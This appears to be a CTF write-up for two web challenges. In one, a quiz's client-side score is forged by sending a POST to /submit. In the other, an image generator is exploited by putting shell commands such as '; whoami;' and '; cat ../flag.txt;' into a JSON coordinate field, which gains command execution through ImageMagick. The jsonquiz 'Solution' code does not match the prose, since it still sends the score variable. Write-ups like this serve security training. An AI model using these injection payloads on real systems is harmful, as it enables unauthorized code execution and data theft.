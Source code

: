 # Web

## web/jsonquiz
A json quiz with 15 questions ripped from Linkedin Skills Assessment

It does not matter if u do the quiz or not

```js
// start() function
while(quiz.length !== 15)

// finish function
setTimeout(() => {
    let score = 0;
    fetch("/submit", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "score=" + score
    })
    .then(r => r.json())
    .then(j => {
        if (j.pass) {
            $("#reward").innerText = j.flag;
            $("#pass").style.display = "block";
        }
        else {
            $("#fail").style.display = "block";
        }
    });
}, 1250);
```

Score will always be 0, simply send a fetch request to `/submit` with `score=15` and get the flag

Solution:
```js
fetch("/submit", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "score=" + score
    })
    .then(r => r.json())
    .then(j => {
        if (j.pass) {
            $("#reward").innerText = j.flag;
            $("#pass").style.display = "block";
        } else {
            $("#fail").style.display = "block";
        }
    });
```
Flag: `corctf{th3_linkedin_JSON_quiz_is_too_h4rd!!!}`

## web/msfrog-generator

When we view the source, there is a comment to not try looking for vuln in the front end code aka react app, so we look for a connection or api request.

Clicking generate calls a function with some variables that look like the following: 
```json
[
    {
        "type": "mstongue.png",
        "pos": {
            "x": 153,
            "y": 122
        }
    }
]
```
We get a base64 representation of the generated png file (if you click the generate button it calls another function which saves the base64 to a png file)

We try changing the type to flag.txt in the post request
```json
[
    {
        "type": "flag.txt",
        "pos": {
            "x": 153,
            "y": 122
        }
    }
]
```
and get back 
```
I wont pass a non existing image to a shell command lol
```

At least we are getting somewhere.

Seems like some shell commands are run to create a new png file with the composities from other images. It might be using ImageMagick on the command line.

Now what if we try to mess things up and see if we get some errors?

```json
[
    {
        "type": "mstongue.png",
        "pos": {
            "x": 153,
            "y": "122LOL"
        }
    }
]
```
We get back
```sh
Something went wrong :
b"convert-im6.q16: invalid argument for option `-geometry': +153+122LOL @ error/convert.c/ConvertImageCommand/1672.\n"
```
This is definitely ImageMagick. What if we simply break the current command and run `;whoami`? 

```json
[
    {
        "type": "mstongue.png",
        "pos": {
            "x": 153,
            "y": "122; whoami"
        }
    }
]
```
We get back 
```sh
Something went wrong :
b"convert-im6.q16: missing an image filename `+153+122' @ error/convert.c/ConvertImageCommand/3226.\nwhoami: invalid option -- 'c'\nTry 'whoami --help' for more information.\n"
```
Looks like we have to add another `;` to call `whoami` on its own

```json
[
    {
        "type": "mstongue.png",
        "pos": {
            "x": 153,
            "y": "122; whoami;"
        }
    }
]
```
And we have RCE

```json
{"msfrog": "www-data\n"}
```

Solution: 

```json
[
    {
        "type": "mstongue.png",
        "pos": {
            "x": 153,
            "y": "122; cat ../flag.txt;"
        }
    }
]
```

Flag: `corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}`
